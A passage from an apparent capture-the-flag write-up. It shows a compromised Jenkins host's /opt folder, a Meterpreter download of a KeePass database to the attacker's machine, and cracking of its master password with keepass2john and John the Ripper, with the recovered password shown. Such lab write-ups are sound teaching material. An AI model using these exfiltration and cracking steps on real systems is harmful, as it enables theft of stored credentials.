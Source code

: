 
Opening the /opt folder we found two files : 


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
jenkins@ubuntu:~$ cd /opt
cd /opt
jenkins@ubuntu:/opt$ ls -al
ls -al
total 24
drwxr-xr-x  2 root root 4096 Sep 15 21:35 .
drwxr-xr-x 24 root root 4096 Sep 15 09:31 ..
-rw-r--r--  1 root root 2558 Sep 15 21:32 morag.kdbx
-rwsr-xr-x  1 root root 8304 Sep 15 10:48 script

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Downloading the morag.kdbx and cracking the passwords

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
meterpreter > download /opt/morag.kdbx
[*] Downloading: /opt/morag.kdbx -> morag.kdbx
[*] Downloaded 2.50 KiB of 2.50 KiB (100.0%): /opt/morag.kdbx -> morag.kdbx
[*] download   : /opt/morag.kdbx -> morag.kdbx

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Cracking password:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# keepass2john morag.kdbx > morag.hash
root@setrus:~# john morag.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64 OpenSSL])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with single, rules:Wordlist
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 2 candidates buffered for the current salt, minimum 8
needed for performance.
Warning: Only 4 candidates buffered for the current salt, minimum 8
needed for performance.
Warning: Only 5 candidates buffered for the current salt, minimum 8
needed for performance.
Warning: Only 4 candidates buffered for the current salt, minimum 8
needed for performance.
Warning: Only 5 candidates buffered for the current salt, minimum 8
needed for performance.
Warning: Only 3 candidates buffered for the current salt, minimum 8
needed for performance.
Warning: Only 5 candidates buffered for the current salt, minimum 8
needed for performance.
Warning: Only 7 candidates buffered for the current salt, minimum 8
needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
princesa         (morag)
1g 0:00:00:30 DONE 2/3 (2019-10-25 05:48) 0.03288g/s 94.24p/s 94.24c/s 94.24C/s pretty..princesa
Use the "--show" option to display all of the cracked passwords reliably
Session completed

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
